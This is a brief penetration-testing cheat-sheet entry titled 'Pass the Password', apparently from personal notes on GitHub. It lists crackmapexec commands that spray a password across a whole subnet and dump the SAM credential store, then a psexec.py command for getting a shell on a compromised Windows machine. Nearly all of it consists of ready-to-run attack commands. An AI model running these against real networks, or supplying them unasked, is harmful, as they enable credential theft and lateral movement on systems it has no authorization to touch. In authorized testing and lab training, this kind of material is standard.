 # Pass the Password

This will **spray the password** and **user** on the entire network.

```
crackmapexec smb 192.168.0.0/24 -u <user> -d <domain>-p Password1
```

Try to dump the **sam** file.

```
crackmapexec smb 192.168.0.0/24 -u <user> -d <domain>-p Password1 --sam
```

Try to get a shell in a machine that you have **"Pwned!!"**.

```
psexec.py <domain>/<user>:<password>@<IP>
```
